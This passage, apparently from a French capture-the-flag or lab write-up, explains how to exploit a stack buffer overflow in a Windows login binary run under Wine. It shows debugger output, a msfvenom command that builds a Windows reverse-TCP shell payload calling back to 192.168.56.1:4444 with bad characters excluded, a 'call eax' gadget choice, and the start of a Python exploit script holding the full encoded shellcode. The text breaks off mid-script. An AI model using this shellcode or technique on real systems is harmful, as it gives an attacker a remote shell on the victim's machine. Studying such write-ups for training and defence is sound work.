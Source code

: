 Il y a plusieurs particularités qui vont en notre faveur :

* ESP pointe sur les données juste après l'adresse de retour que l'on va écraser

* EAX et ECX pointent tous les deux sur le début de notre buffer dans la stack

On peut le voir à l'aide de winedbg qui est une copie (mais pas aussi bien) de gdb :

```
Wine-dbg>b *0x004018ee
Breakpoint 1 at 0x000000004018ee login+0x18ee
Wine-dbg>c
Stopped on breakpoint 1 at 0x000000004018ee login+0x18ee
Wine-dbg>x/i $eip
0x000000004018ee login+0x18ee: ret
Wine-dbg>x/s $eax
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Ici j'ai mis un breakpoint sur l'instruction ret dans *_f3* puisque c'est là où le détournement de l'exécution aura lieu.

Il nous faut un shellcode et comme il y a différents caractères interdits autant s'en remettre à Metasploit qui utilisera des endodeurs pour obtenir un shellcode valide :

```shellsession
msfvenom -a x86 -b '\x2d\x2e\x46\x47\x59\x5e\x60\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
```

Il faut aussi choisir par quoi on écraser l'adresse de retour. A l'aide de [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) je trouve facilement une instruction dans le binaire qui fait un `call eax`. Il faut donc passer notre shellcode en début de payload :

```python
import socket

# msfvenom -a x86 -b '\x2d\x2e\x46\x47\x59\x5e\x60\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
shellcode =  b""
shellcode += b"\x33\xc9\xb1\x51\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73"
shellcode += b"\x13\xe8\xf7\xe4\xc1\x83\xeb\xfc\xe2\xf4\x14\x1f\x66"
shellcode += b"\xc1\xe8\xf7\x84\x48\x0d\xc6\x24\xa5\x63\xa7\xd4\x4a"
shellcode += b"\xba\xfb\x6f\x93\xfc\x7c\x96\xe9\xe7\x40\xae\xe7\xd9"
shellcode += b"\x08\x48\xfd\x89\x8b\xe6\xed\xc8\x36\x2b\xcc\xe9\x30"
shellcode += b"\x06\x33\xba\xa0\x6f\x93\xf8\x7c\xae\xfd\x63\xbb\xf5"
shellcode += b"\xb9\x0b\xbf\xe5\x10\xb9\x7c\xbd\xe1\xe9\x24\x6f\x88"
shellcode += b"\xf0\x14\xde\x88\x63\xc3\x6f\xc0\x3e\xc6\x1b\x6d\x29"
shellcode += b"\x38\xe9\xc0\x2f\xcf\x04\xb4\x1e\xf4\x99\x39\xd3\x8a"
shellcode += b"\xc0\xb4\x0c\xaf\x6f\x99\xcc\xf6\x37\xa7\x63\xfb\xaf"
shellcode += b"\x4a\xb0\xeb\xe5\x12\x63\xf3\x6f\xc0\x38\x7e\xa0\xe5"
shellcode += b"\xcc\xac\xbf\xa0\xb1\xad\xb5\x3e\x08\xa8\xbb\x9b\x63"
shellcode += b"\xe5\x0f\x4c\xb5\x9f\xd7\xf3\xe8\xf7\x8c\xb6\x9b\xc5"
shellcode += b"\xbb\x95\x80\xbb\x93\xe7\xef\x08\x31\x79\x78\xf6\xe4"
shellcode += b"\xc1\xc1\x33\xb0\x91\x80\xde\x64\xaa\xe8\x08\x31\x91"
shellcode += b"\xb8\xa7\xb4\x81\xb8\xb7\xb4\xa9\x02\xf8\x3b\x21\x17"
shellcode += b"\x22\x73\xab\xed\x9f\x24\x69\xd0\xf6\x8c\xc3\xe8\xe6"
shellcode += b"\xb8\x48\x0e\x9d\xf4\x97\xbf\x9f\x7d\x64\x9c\x96\x1b"
shellcode += b"\x14\x6d\x37\x90\xcd\x17\xb9\xec\xb4\x04\x9f\x14\x74"
shellcode += b"\x4a\xa1\x1b\x14\x80\x94\x89\xa5\xe8\x7e\x07\x96\xbf"
shellcode += b"\xa0\xd5\x37\x82\xe5\xbd\x97\x0a\x0a\x82\x06\xac\xd3"
shellcode += b"\xd8\xc0\xe9\x7a\xa0\xe5\xf8\x31\xe4\x85\xbc\xa7\xb2"
shellcode += b"\x97\xbe\xb1\xb2\x8f\xbe\xa1\xb7\x97\x80\x8e\x28\xfe"
shellcode += b"\x6e\x08\x31\x48\x08\xb9\xb2\x87\x17\xc7\x8c\xc9\x6f"
shellcode += b"\xea\x84\x3e\x3d\x4c\x14\x74\x4a\xa1\x8c\x67\x7d\x4a"
shellcode += b"\x79\x3e\x3d\xcb\xe2\xbd\xe2\x77\x1f\x21\x9d\xf2\x5f"
```